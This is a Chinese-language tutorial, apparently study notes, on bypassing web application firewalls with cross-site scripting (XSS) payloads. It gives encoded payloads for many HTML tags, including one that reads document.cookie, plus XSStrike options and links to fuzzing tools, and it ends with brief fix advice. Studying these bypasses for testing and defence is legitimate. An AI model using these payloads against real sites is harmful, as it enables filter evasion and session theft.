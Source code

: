 推荐阅读：<br />[WAF攻防实战笔记v1.0--Bypass.pdf](https://www.yuque.com/attachments/yuque/0/2021/pdf/2476579/1628670716854-4df32194-55e2-4ba7-86cf-201949ca7763.pdf)<br />![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628132918301-6d92440b-aa98-4275-a9bf-b7f7658b568a.png?x-oss-process=image%2Fresize%2Cw_908%2Cresize%2Cw_908#from=url&id=s0gET&originHeight=811&originWidth=908&originalType=binary&ratio=1&status=done&style=none)

<a name="TMkGC"></a>
## 常规 WAF 绕过思路 
```bash
标签语法替换 
特殊符号干扰 
提交方式更改 
垃圾数据溢出 
加密解密算法 
结合其他漏洞绕过  
```
**安全狗waf**<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628670393749-728c2af6-7c29-49ab-8f5a-909f70d247f4.png#clientId=u5d213080-7d85-4&from=paste&height=419&id=uadd1784d&originHeight=838&originWidth=1318&originalType=binary&ratio=1&size=192499&status=done&style=none&taskId=u3933f11b-276a-4352-b66f-2c50135ebfe&width=659)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628670329110-f70a4972-cf7e-4d25-9da9-b318c965db2e.png#clientId=u5d213080-7d85-4&from=paste&height=362&id=u6eb5f6da&originHeight=723&originWidth=1370&originalType=binary&ratio=1&size=68793&status=done&style=none&taskId=u3ce0d07f-7524-4793-aabf-22b12b369a1&width=685)

<a name="JvZvq"></a>
## 常见waf过滤的标签
```bash
<script>  <a>  <p>  <img>  <body> <button>  <var>  <div>  <iframe>  <object> <input> 
<textarea>  <keygen> <frameset>  <embed>  <svg>  <math>  <video>  <audio> <select>
```
**绕过方法**
```bash
可以弹窗的：alert，prompt ，confirm，base64加密，编码绕过（安全狗都没有过滤）

绕过方法有很多比如：

大小写绕过
javascript伪协议
没有分号
Flash
HTML5 新标签
Fuzz进行测试
双层标签绕过
```
**audio标签**

```
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```

**video标签**

```
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>
```

**div标签**

```
<div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
```

**math标签**

```
<math><a/xlink:href=javascript:prompt(1)>Xss

<math href="javascript:javascript:alert(1)">Xss</math>
```

**button标签**

```
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>
```

**keygen标签**

```
<keygen/onfocus=prompt(1);>
<keygen onfocus=javascript:alert(1) autofocus>
```

**object标签**

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
      解码：<script>alert(1)</script>
```

**iframe标签**

```
<IFRAME width%3d"420" height%3d"315" frameborder%3d"0" onload%3d"alert(document.cookie)"><%2fIFRAME>
<iframe%2fsrc%3d"data%3atext%2fhtml%3b%26Tab%3bbase64%26Tab%3b,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg%3d%3d">
<iframe srcdoc%3d'%26lt%3bbody onload%3dprompt%26lpar%3b1%26rpar%3b%26gt%3b'>
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628672708198-4d7c8ebf-a562-45bf-b5aa-8252d79d2a00.png#clientId=u1613a801-9ca0-4&from=paste&height=149&id=u9ea80b8f&originHeight=298&originWidth=1378&originalType=binary&ratio=1&size=28223&status=done&style=none&taskId=u3905a4f2-b826-4d51-bbd5-b43c25212ea&width=689)
<a name="qKLSs"></a>
## xssfuzz在线fuzz工具
[https://xssfuzzer.com/fuzzer.html](https://xssfuzzer.com/fuzzer.html)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628685763484-c63dba8e-ddbd-4e1f-b7e3-2e41fa4854ac.png#clientId=u1613a801-9ca0-4&from=paste&height=407&id=ubff9d113&originHeight=814&originWidth=1680&originalType=binary&ratio=1&size=87178&status=done&style=none&taskId=u8d62eff7-e439-48a4-8b5a-65ec06c0102&width=840)
<a name="YX6jS"></a>
##  自动化工具说明  
```bash
XSStrike 主要特点反射和 DOM XSS 扫描
多线程爬虫
Context 分析
可配置的核心
检测和规避 WAF
老旧的 JS 库扫描
智能 payload 生成器
手工制作的 HTML & JavaScript 解析器
强大的 fuzzing 引擎
盲打 XSS 支持
高效的工作流
完整的 HTTP 支持
Bruteforce payloads 支持
Payload 编码
```
```bash
-h, --help 			//显示帮助信息
-u, --url 			//指定目标 URL
--data 					//POST 方式提交内容
-v, --verbose 	//详细输出
-f, --file 			//加载自定义 paload 字典
-t, --threads 	//定义线程数
-l, --level 		//爬行深度
-t, --encode 		//定义 payload 编码方式
--json 					//将 POST 数据视为 JSON
--path 					//测试 URL 路径组件
--seeds 				//从文件中测试、抓取 URL
--fuzzer 				//测试过滤器和 Web 应用程序防火墙。
--update 				//更新
--timeout 			//设置超时时间
--params 				//指定参数
--crawl 				//爬行
--proxy 				//使用代理
--blind 				//盲测试
--skip 					//跳过确认提示
--skip-dom 			//跳过 DOM 扫描
--headers 			//提供 HTTP 标头
-d, --delay 		//设置延迟

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628687047436-f08e74ab-b015-4aef-83f7-78f4998681ee.png#clientId=u1613a801-9ca0-4&from=paste&height=372&id=ua2bc7555&originHeight=743&originWidth=1543&originalType=binary&ratio=1&size=101125&status=done&style=none&taskId=u6deb238d-094d-4c99-b438-e86bc7060e8&width=771.5)<br />简单的探针绕过<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628687240408-b3630938-971e-46fb-be7a-91445e4c41ec.png#clientId=u1613a801-9ca0-4&from=paste&id=ue3eabe8e&originHeight=646&originWidth=1323&originalType=binary&ratio=1&size=73934&status=done&style=none&taskId=u97335706-f2d9-4388-9afa-e61ab5a89ab)



#安全修复方案
```bash

开启 httponly,输入过滤，输出过滤等
PHP:http://www.zuimoge.com/212.html
JAVA:https://www.cnblogs.com/baixiansheng/p/9001522.html
```

<a name="nvAlB"></a>
## 演示案例

- 手工探针 XSS 绕过 WAF 规则 
- 自动化 XSS 绕过 WAF 测试演示 
- Fuzz 下 XSS 绕过 WAF 测试演示 
- 关于 XSS 跨站安全修复建议测试  

<a name="F64x0"></a>
## 涉及资源
```bash
https://gitee.com/yhtmxl/imxss/

https://github.com/3xp10it/xwaf

https://xssfuzzer.com/fuzzer.html

https://github.com/s0md3v/XSStrike

https://bbs.pediy.com/thread-250852.htm

https://github.com/TheKingOfDuck/fuzzDicts
```
